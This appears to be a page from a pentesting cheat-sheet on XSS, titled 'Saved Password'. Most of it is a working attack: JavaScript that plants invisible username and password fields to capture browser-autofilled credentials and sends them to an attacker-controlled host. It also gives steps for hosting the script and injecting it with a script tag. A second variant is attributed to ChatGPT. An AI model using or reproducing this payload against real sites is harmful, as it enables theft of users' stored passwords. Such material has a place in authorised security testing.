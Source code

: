 ```yaml
---
title: Saved Password
layout: default
parent: XSS
has_children: false
nav_order: 4
---
```


<h2>Hosting method:</h2>

1. First create a file name savedpassword.js with the following content:
(Changed the original `fetch("http://domain/?saveduser=" + u.value + "&savedpass=" + p.value)` to new Image().src as it is better)
```
let body = document.getElementsByTagName("body")[0];
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
u.style.opacity = "0";
var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
p.style.opacity = "0";
body.append(u);
body.append(p);
setTimeout(function(){ 
       new Image().src = "http://domain/?saveduser=" + u.value + "&savedpass=" + p.value;
}, 5000);
```

1. Host the file using Python:
`python3 -m http.server 80`

1. Inject the payload:
`<script src="http://ownIP/savedpassword.js"></script>`

1. Alternative solution by ChatGPT for on submission or moved from input box:
```
let body = document.getElementsByTagName("body")[0];
var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
u.style.opacity = "0";
var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
p.style.opacity = "0";
body.append(u);
body.append(p);
function sendData() {
    fetch("http://domain/?saveduser=" + u.value + "&savedpass=" + p.value);
}
u.addEventListener("change", sendData);
p.addEventListener("change", sendData);
```
